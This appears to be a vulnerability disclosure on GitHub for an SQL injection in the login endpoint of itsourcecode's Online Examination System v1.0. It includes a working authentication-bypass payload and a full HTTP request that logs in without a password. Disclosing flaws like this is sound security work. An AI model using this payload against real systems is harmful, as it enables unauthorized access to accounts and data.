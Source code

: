 # Onlin Examination System v1.0 by itsourcecode.com has SQL injection
**Vul_Author:** Wenxun Wang

**vendors:** https://itsourcecode.com/free-projects/php-project/online-examination-system-in-php/

**Vulnerability url:** /Online/query/loginExe.php

**Vulnerability location:** /Online/query/loginExe.php


**[+] Payload:** username=jane@gmail.com'#&pass=

​	Leak place : username

**Correct username and password:** username=jane@gmail.com&pass=jane

**Request package**：try to login without password

```
POST /Online/query/loginExe.php HTTP/1.1
Host: localhost
Content-Length: 31
sec-ch-ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/Online/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlrckqkq9743hpeup42er0t684
Connection: close

username=jane@gmail.com'#&pass=
```

**SQL injection result**：(line 12 of the resonse) login successfully without password

![sql_injection](https://github.com/iknownt/bug_report/blob/main/vendors/itsourcecode.com/Onlin-Examination-System/images/sql_injection1.png)

